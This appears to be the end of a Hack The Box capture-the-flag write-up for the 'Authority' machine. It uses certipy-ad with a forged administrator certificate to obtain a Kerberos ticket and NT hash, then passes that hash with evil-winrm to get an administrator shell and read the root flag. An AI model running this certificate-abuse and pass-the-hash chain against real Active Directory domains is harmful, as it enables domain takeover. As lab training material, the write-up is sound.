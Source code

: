 ![Pasted image 20240721201954](https://github.com/user-attachments/assets/5994c7cf-f68f-43bb-9ff6-0643c0075f6b)

Now we have certificate, Lets Sync our machine time with Target machine using. 

```bash
$ sudo ntpdate 10.129.35.171 
```

After syncing time, lets ask for TGT and NTLM hash of Admin user using automated method;

```bash
$ certipy-ad auth -pfx administrator_authority.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'administrator@authority.htb'
    [1] DNS Host Name: 'authority.htb'
> 0
[*] Using principal: administrator@authority.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@authority.htb': aad3b435b51404eeaad3b435b51404ee:6961f422924da90a6928197429eea4ed
```

## Shell as Administrator

```powershell 
$ evil-winrm -i 10.129.35.171 -u administrator -H '6961f422924da90a6928197429eea4ed'

Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
a3edc451c38182d4d5e617081407e03d
```


# Flags

User : 2068cae1ded4b.....056e924c59295e8

Root : a3edc451c381.......4d5e617081407e03d

